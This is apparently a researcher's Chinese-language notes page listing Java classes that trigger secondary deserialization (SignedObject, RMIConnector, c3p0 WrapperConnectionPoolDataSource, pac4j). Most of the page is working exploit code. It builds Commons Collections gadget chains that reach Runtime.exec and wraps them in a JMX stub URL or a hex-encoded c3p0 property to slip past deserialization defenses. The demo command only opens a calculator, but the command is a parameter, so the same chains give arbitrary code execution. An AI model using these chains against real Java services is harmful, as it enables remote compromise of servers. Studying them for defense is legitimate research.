


# Java触发二次反序列化的点

持续更新当中自己的字典了

## java.security.SignedObject#getObject

利用代码

```java
KeyPairGenerator keyPairGenerator;
keyPairGenerator = KeyPairGenerator.getInstance("DSA");
keyPairGenerator.initialize(1024);
KeyPair keyPair = keyPairGenerator.genKeyPair();
PrivateKey privateKey = keyPair.getPrivate();
Signature signingEngine = Signature.getInstance("DSA");
SignedObject so = null;
so = new SignedObject(badAttributeValueExpException, privateKey, signingEngine);
```

可以看见在getObject方法当中可以触发二次反序列化

```java
public Object getObject()
throws IOException, ClassNotFoundException
{
// creating a stream pipe-line, from b to a
ByteArrayInputStream b = new ByteArrayInputStream(this.content);
ObjectInput a = new ObjectInputStream(b);
Object obj = a.readObject();
b.close();
a.close();
return obj;
}
```


## javax.management.remote.rmi.RMIConnector#connect()

```java
package com.govuln.shiroattack;

import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;
import org.apache.shiro.codec.Base64;
import javax.management.remote.JMXServiceURL;
import javax.management.remote.rmi.RMIConnector;
import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.HashSet;
import java.util.Map;


public class CommonsCollections6 {
    public static Class makeClass(String clazzName) throws Exception{
        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.makeClass(clazzName);
        Class clazz = ctClass.toClass();
        ctClass.defrost();
        return clazz;
    }
    public byte[] getPayload(String command) throws Exception {
        Transformer[] fakeTransformers = new Transformer[] {};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { command })
//                new ConstantTransformer(1)
        };

        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap<Object,Object>();
        expMap.put(tme, "valuevalue");

        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);


        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();
//        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
//        objectInputStream.readObject();
//
//        FileOutputStream fileOutputStream = new FileOutputStream("/Users/y4tacker/Desktop/1.class");
//        fileOutputStream.write(barr.toByteArray());


//        System.out.println(new String(barr.toByteArray()));
        return barr.toByteArray();
    }

    public byte[] getNewPayload(String command) throws Exception{
        byte[] encode = Base64.encode(getPayload(command));
        Transformer transformer = InvokerTransformer.getInstance("connect");

        String finalExp = "service:jmx:rmi:///stub/" + new String(encode);
        JMXServiceURL jmxServiceURL = new JMXServiceURL(finalExp);
        RMIConnector rmiConnector = new RMIConnector((JMXServiceURL)jmxServiceURL, new HashMap());

        Map innerMap = new HashMap();
        Map lazyMap = LazyMap.decorate(innerMap, transformer);
        TiedMapEntry entry = new TiedMapEntry(lazyMap, rmiConnector);
        HashSet map = new HashSet(1);
        map.add("foo");
        Field f = null;

        try {
            f = HashSet.class.getDeclaredField("map");
        } catch (NoSuchFieldException var18) {
            f = HashSet.class.getDeclaredField("backingMap");
        }

        f.setAccessible(true);
        HashMap innimpl = (HashMap) f.get(map);
        Field f2 = null;

        try {
            f2 = HashMap.class.getDeclaredField("table");
        } catch (NoSuchFieldException var17) {
            f2 = HashMap.class.getDeclaredField("elementData");
        }

        f2.setAccessible(true);
        Object[] array = (Object[]) ((Object[]) f2.get(innimpl));
        Object node = array[0];
        if (node == null) {
            node = array[1];
        }

        Field keyField = null;

        try {
            keyField = node.getClass().getDeclaredField("key");
        } catch (Exception var16) {
            keyField = Class.forName("java.util.MapEntry").getDeclaredField("key");
        }

        keyField.setAccessible(true);
        keyField.set(node, entry);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(map);
        oos.close();
        return barr.toByteArray();
//        return null;
    }


    public static void main(String[] args) throws Exception {
        CommonsCollections6 commonsCollections6 = new CommonsCollections6();
        byte[] newPayload = commonsCollections6.getNewPayload("open -na Calculator");
        ObjectInputStream objectInputStream = new ObjectInputStream(new ByteArrayInputStream(newPayload));
        objectInputStream.readObject();
//        commonsCollections6.test("open -na Calculator");
    }
}

```

来看看这个connect方法，可以看见调用了`javax.management.remote.rmi.RMIConnector#findRMIServer`方法




可以看见支持jndi、iiop还有个stub

```java
int end = path.indexOf(';');
if (end < 0) end = path.length();
if (path.startsWith("/jndi/"))
  return findRMIServerJNDI(path.substring(6,end), environment, isIiop);
else if (path.startsWith("/stub/"))
  return findRMIServerJRMP(path.substring(6,end), environment, isIiop);
else if (path.startsWith("/ior/")) {
  if (!IIOPHelper.isAvailable())
    throw new IOException("iiop protocol not available");
  return findRMIServerIIOP(path.substring(5,end), environment, isIiop);
} else {
  final String msg = "URL path must begin with /jndi/ or /stub/ " +
    "or /ior/: " + path;
  throw new MalformedURLException(msg);
}
```

能清楚的发现这个点对其中的字符串做Base64解码再做二次反序列化



## com.mchange.v2.c3p0.WrapperConnectionPoolDataSource#setUpPropertyListeners

```
package c3poStudy;

import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class DemoTest {
    public static void main(String[] args) throws Exception{

        Map a = go();
        ObjectOutputStream ser0 = new ObjectOutputStream(new FileOutputStream(new File("/Users/y4tacker/Desktop/JavaStudy/Basicstudy/a.bin")));
        ser0.writeObject(a);
        ser0.close();

        InputStream in = new FileInputStream("/Users/y4tacker/Desktop/JavaStudy/Basicstudy/a.bin");
        byte[] bytein = toByteArray(in);

        String Hex = "HexAsciiSerializedMap:"+bytesToHexString(bytein,bytein.length)+";";
        WrapperConnectionPoolDataSource exp = new WrapperConnectionPoolDataSource();
        exp.setUserOverridesAsString(Hex);


    }

    public static Map go() throws Exception{

        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "open -na Calculator" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);

        // 不再使用原CommonsCollections6中的HashSet，直接使用HashMap
        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");

        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");

        outerMap.remove("keykey");

        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        return expMap;
    }

    public static byte[] toByteArray(InputStream in) throws IOException {
        byte[] classBytes;
        classBytes = new byte[in.available()];
        in.read(classBytes);
        in.close();
        return classBytes;
    }

    public static String bytesToHexString(byte[] bArray, int length) {
        StringBuffer sb = new StringBuffer(length);

        for(int i = 0; i < length; ++i) {
            String sTemp = Integer.toHexString(255 & bArray[i]);
            if (sTemp.length() < 2) {
                sb.append(0);
            }

            sb.append(sTemp.toUpperCase());
        }
        return sb.toString();
    }

}
```

具体分析见https://y4tacker.github.io/2022/02/06/year/2022/2/c3p0%E7%9A%84%E4%B8%89%E4%B8%AAgadget%E7%9A%84%E5%AD%A6%E4%B9%A0/#hex%E5%BA%8F%E5%88%97%E5%8C%96%E5%AD%97%E8%8A%82%E5%8A%A0%E8%BD%BD%E5%99%A8


##  org.pac4j.core.profile.InternalAttributeHandler#restore
使用{#sb64}rO0ABXN...serizalized_object_in_base64...，隐藏TemplatesImpl，可惜不是通用的
参考链接：https://securitylab.github.com/advisories/GHSL-2022-085_pac4j/
